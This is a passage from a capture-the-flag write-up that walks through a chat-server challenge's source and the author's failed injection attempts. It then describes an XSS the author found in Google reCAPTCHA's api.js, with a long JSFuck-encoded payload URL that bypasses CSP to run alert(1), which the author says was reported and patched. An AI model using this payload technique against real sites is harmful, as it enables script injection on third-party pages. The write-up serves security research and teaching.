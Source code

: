 If you read up to this place you probably know the complete solution already but before revealing it, I will try to reproduce my thinking process after rejecting that possibility. If you don't wish to read the part not exactly related to the solution, just jump into [The Command Injection Once More](#the-command-injection-once-more) :)

I don't remember the exact order of the things I have tried, but it does not really matter at this point. 
Here are some interesting findings I had discovered.

### X-Forwarded-For

There is a misterious piece of code in the [server.js] source.
```js
case '/report':
        if (!(arg = msg.match(/\/report (.+)/))) break;
        var ip = req.headers['x-forwarded-for'];
        ip = ip ? ip.split(',')[0] : req.connection.remoteAddress;
        response = await admin.report(arg[1], ip, `https://${req.headers.host}/room/${room}/`);
```
It looks at least very very suspicious. The exact line I am thinking of is `var ip = req.headers['x-forwarded-for'];`. When we type `/report` in the chat our IP is beeing sent over to the admin, but purpose of it is highly unknow since we lack the knowledge of the `const admin = require('./admin');` module. But the idea itself of forging my *IP* by crafting the [HTTP header] `x-forwarded-for` to anything I desire seemed to me like a something definitely worth a try. I tested over for any kind of injection that came to my head starting with the [CSRF], ending with the [SQL Injection], and with [XSS Injection] in the middle, but assumed none of these actually worked since I didn't get any outcome. 

### Searching for broadcast
After that, I had decided to run my own instance of the server and test things out locally. I had tried really hard to call the `broadcast(room, msg)` function with the `/secret` command injected, hoping that there is a part of code on the client side, I hadn't yet found, allowing me to execute two commands from one message in there. This attempt was of course badly unsuccessful and the payloads I was creating were ridiculous by looking at them from the time perspective. The only good thing that came out from it, was that I successfully created my own instance of the server which helped to test things out more effectively.


### Searching for XSS
Even though I assumed there was no possibility of [XSS Injection], and if there was any the whole solution would zip into one-line solution and on the other hand, the path I already followed seemed to be the correct one, I was searching for possible `XSS` point on the website. And surprisingly I have found one! I found a vulnerability in the [Google reCAPTCHA] functionality. 
`<script src="https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu"></script>`. I have made a closer look at this script and tried to inject some *XSS* in here. I found the line in the [api.js] looking like dynamically created `... ).push('6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu');window ...`, so I tried to insert the quote character `'` to close the function call in order to insert some more code. As for the surprise, it worked! But when one tries to insert any `alphanumeric` character after it, the line changes to: `push('onload')`. So the challenge is to write a payload without using such characters. Well, we all know [JSFuck] and creating the URL: [https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu');&#x5B;&#x5D;&#x5B;(!&#x5B;&#x5D;+&#x5B;&#x5D;)...();('] produces a valid JavaScript code which when attached pops out the `alert(1)`. This is a serious security gap since this can be easily used to bypass [CSP] protection on third-party websites. Just for the sake of an example, if we found a place to inject `<script>` element on the website from this task we could execute any code we want even though [CSP] was set to prevent such situations. I had reported this vulnerability and now it's patched. More about my report can be found [here](https://github.com/terjanq/google-reported-issue#improper-parameter-sanitization)


[CSS Injection]: <https://www.owasp.org/index.php/Testing_for_CSS_Injection_(OTG-CLIENT-005)>
[CRLF]: <https://www.owasp.org/index.php/CRLF_Injection>
[CSRF]: <https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)>
[Header Injection]: <https://www.owasp.org/index.php/HTTP_Response_Splitting>
[SQL Injection]: <https://www.owasp.org/index.php/SQL_Injection>
[XSS Injection]: <https://www.owasp.org/index.php/Cross-site_Scripting_(XSS)>
[CSS Code]: <https://www.w3schools.com/html/html_css.asp>
[HTML Entity]: <https://www.w3schools.com/html/html_entities.asp>
[DOM Element]: <https://www.w3schools.com/jsref/dom_obj_all.asp>
[CSS Selector Rules]: <https://www.w3schools.com/cssref/css_selectors.asp>
[documentation]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie>
[RegExp]: <https://developer.mozilla.org/en-US/docs/Web/JavaScript/Guide/Regular_Expressions>
[HTTP Header]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers>
[CSP]: <https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP>
[Google reCAPTCHA]: <https://www.google.com/recaptcha/intro/v3beta.html>
[Tampermonkey]: <http://tampermonkey.net/>
[console]: <https://developers.google.com/web/tools/chrome-devtools/console/>
[solution]: <./gifs/solution.gif>
[command_injection]: <./gifs/command_injection.gif>
[css_injection]: <./gifs/css_injection.gif>
[header_injection]: <./gifs/header_injection.png>
[self_injection]: <./gifs/self_injection.png>
[server.js]: <./files/server.js>
[catchat.js]: <./files/catchat.js>
[cat_talks_solver.user.js]: <./cat_talks_solver.user.js>
[cat_talks_minified.js]: <./cat_talks_solver_minified.js>
[Issue]: <https://issuetracker.google.com/issues/111032474>
[JSFuck]: <http://www.jsfuck.com/>
[api.js]: <https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu>
[https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu');&#x5B;&#x5D;&#x5B;(!&#x5B;&#x5D;+&#x5B;&#x5D;)...();(']: <https://www.google.com/recaptcha/api.js?render=6LeB410UAAAAAGkmQanWeqOdR6TACZTVypEEXHcu%27%29%3b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%5b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%5b%5d%5b%5b%5d%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%28%28%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%5b%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%5b%28%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%5b%21%5b%5d%5d%2b%5b%5d%5b%5b%5d%5d%29%5b%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%2b%28%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%21%2b%5b%5d%5d%2b%28%21%21%5b%5d%2b%5b%5d%29%5b%2b%21%2b%5b%5d%5d%5d%29%5b%21%2b%5b%5d%2b%21%2b%5b%5d%2b%5b%2b%5b%5d%5d%5d%29%28%29%3b%28%27)>